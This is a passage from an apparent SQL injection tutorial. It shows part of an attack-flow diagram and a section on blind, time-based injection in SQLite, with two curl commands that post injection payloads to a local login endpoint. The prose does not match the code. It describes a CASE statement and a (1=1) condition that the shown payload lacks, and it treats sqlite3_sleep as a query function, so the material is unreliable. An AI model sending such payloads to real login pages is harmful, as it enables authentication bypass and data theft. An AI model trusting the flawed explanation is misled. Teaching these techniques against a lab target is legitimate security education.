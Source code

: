 ```sh
           +---------------------------->|     Statement           |
                                         |                         |
                                         +-------------------------+
                                                      |
                                                      V
                                          +------------------------+
                                          |     SQL Statement      |
                                          |     with Malicious     |
                                          |     User Input         |
                                          +------------------------+
                                                      |
                                                      V
                                          +------------------------+
                                          |   Authentication Check | 
                                          |   and User Validation  | 
                                          +------------------------+ 
                                                      |
+------------------------+                            |
|       Response         |                            |
|     (All Records)      |<---------------------------+                           
+------------------------+
```

#### 5.1 Blind Based cURL SQL Injection

As you learned from the previous sections, in SQLite, time-based SQL injection can be trickier because SQLite does not have a built-in `SLEEP` function like other database management systems. However, you can leverage certain functions or tasks that take time to execute. Here's an example using SQLite:

```bash
$ curl -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data-urlencode "username=admin' AND SELECT sqlite3_sleep(3000) --" \
     --data-urlencode "password=pass" \
     http://127.0.0.1:8000/login
```

In this example, the payload includes a subquery using `sqlite3_sleep(3000)` within a `CASE` statement. If the condition `(1=1)` is true, it will execute the sleep function, causing a delay. If false, it performs `0`. The `--` at the end is used to comment out the remainder of the query.

Now, let's consider a basic example of using cURL for a time-based SQL injection with the splitting and balancing technique:

```bash
$ curl -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data-urlencode "username=admin' AND (SELECT 1 FROM users WHERE username = 'admin') = 1 --" \
     --data-urlencode "password=pass" \
     http://127.0.0.1:8000/login
```

In this example, the payload attempts to check if the username is `'admin'`. If it is, the condition `(SELECT 1 FROM users WHERE username = 'admin') = 1` becomes true, and the authentication should proceed. If not, it becomes false.
